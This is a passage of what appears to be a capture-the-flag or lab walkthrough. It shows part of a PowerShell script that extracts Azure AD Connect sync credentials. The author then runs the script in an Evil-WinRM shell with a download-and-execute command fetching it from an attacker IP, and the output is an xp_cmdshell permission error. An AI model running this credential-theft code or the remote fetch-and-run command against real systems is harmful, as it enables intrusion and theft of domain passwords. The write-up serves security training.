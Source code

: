     $decrypted = [string]::Empty
    
    while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
        $decrypted += $reader.GetString(0)
    }
    
    if ($decrypted -eq [string]::Empty) {
        Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
        return
    }
    
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
    
    Write-Host "[*] Credentials incoming...`n"
    
    Write-Host "Domain: $($domain.Domain)"
    Write-Host "Username: $($username.Username)"
    Write-Host "Password: $($password.Password)"
    

Now I’ll run it just like I ran the first one. It fails at the `xp_cmdshell`:

    
    
    *Evil-WinRM* PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentialsv2.ps1')
    AD Connect Sync Credential Extract v2 (@_xpn_)
            [ Updated to support new cryptokey storage method ]
    
    [*] Querying ADSync localdb (mms_server_configuration)
    [*] Querying ADSync localdb (mms_management_agent)
    [*] Using xp_cmdshell to run some Powershell as the service user
    Exception calling "ExecuteReader" with "0" argument(s): "User does not have permission to perform this action.
    You do not have permission to run the RECONFIGURE statement.
    The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
    You do not have permission to run the RECONFIGURE statement.
    The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'."
    At line:46 char:1
    + $reader = $cmd.ExecuteReader()
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
        + FullyQualifiedErrorId : SqlException
    Exception calling "Read" with "0" argument(s): "Invalid attempt to call Read when reader is closed."
    At line:50 char:8
    + while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false)  ...
    +        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
        + FullyQualifiedErrorId : InvalidOperationException
    [!] Error using xp_cmdshell to launch our decryption powershell
    